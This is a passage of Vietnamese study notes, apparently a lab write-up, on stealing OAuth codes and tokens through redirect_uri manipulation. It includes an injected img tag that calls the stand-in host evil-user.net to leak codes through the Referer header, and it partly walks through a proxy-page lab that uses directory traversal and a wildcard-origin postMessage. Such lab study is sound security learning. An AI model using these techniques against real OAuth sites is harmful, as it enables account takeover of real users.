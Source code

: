     - Token = “vé hợp pháp” để login ở browser attacker.

    - Attacker có thời gian dài hơn để khai thác account nạn nhân, không phụ thuộc vào session nạn nhân.\
   
  - *HTML injection vulnerabilities*: Trường hợp CSP chặn JS và filtering nghiệm ngặt, chỉ inject được HTML thô. Ta vẫn có trick để leak code/token nhờ Referer header.
 
    Ví dụ:

    - redirect_uri trỏ đến một page mà bạn có thể inject HTML:

    ```html
    <img src="https://evil-user.net/steal.png">
    ```

    - Khi browser load steal.png, nó gửi request đến evil-user.net. Trình duyệt (ví dụ Firefox) sẽ gửi full URL của trang hiện tại trong Referer header, gồm cả ?code=XYZ.

    &rarr; Attacker đọc log server evil-user.net → thấy code/token.

### Lab: Stealing OAuth access tokens via a proxy page

- Giao diện trang web thực hiện khai thác:

  <img width="1895" height="935" alt="image" src="https://github.com/user-attachments/assets/cae9596a-eda5-41b6-84f2-e4454ea74da7" />

- Tương tự như bài lab trước về mặt cho phép user đăng nhập bằng social media.

- Cũng tương tự như bài lab trước, sử dụng Burp Proxy Interception ta phát hiện thấy được rằng tham số *redirect_uri* trong GET request *GET /auth?client_id=[...]* có lỗ hổng directory traversal /../

  <img width="1868" height="800" alt="Screenshot 2025-09-03 144058" src="https://github.com/user-attachments/assets/772ed270-6f42-4456-ad72-4a850dae87ba" />

- Quan sát thấy được rằng trong mỗi blog post của trang web, comment form được bao gồm một iframe kiểu: */post/comment/comment-form#postId=?*

- Sử dụng Burp, ta thấy được page */post/comment/comment-form* như sau:

  <img width="1865" height="808" alt="image" src="https://github.com/user-attachments/assets/2b624940-467d-4738-a004-2d9e620bf41a" />

  Chú ý thấy được rằng nó sử dụng phương thức *postMessage()* cho phép gửi dữ liệu trong thuộc tính *window.location.href* (full URL hiện tại của iframe) tới parent        window (iframe với src */post/comment/comment-form* là child window, trang gốc bọc bên ngoài là parent window). Một điều đáng chú ý là tham số '**', đây là tham số       origin mà message muốn gửi tới, với '*' tức nghĩa là gửi cho bất kỳ domain nào không cần check.

  **Note**: Origin được định nghĩa = protocol + hostname + port, hai URL chỉ được coi là cùng origin nếu cả 3 phần này trùng nhau..Origin là ranh giới an toàn trong        trình duyệt, dùng trong Same-Origin Policy (SOP). Ví dụ:

  ```html
  iframe.contentWindow.postMessage("hello", "https://app.victim.com");
  ```

  &rarr; Chỉ iframe chạy đúng origin https://app.victim.com mới nhận được.

- Trong exploit server, phần body ta tạo một thẻ *iframe* trong đó thuộc tính src là URL của GET request /auth?client_id=[...] và sử dụng directory traversal để thay đổi *redirect_uri* trỏ tới phần comment form:
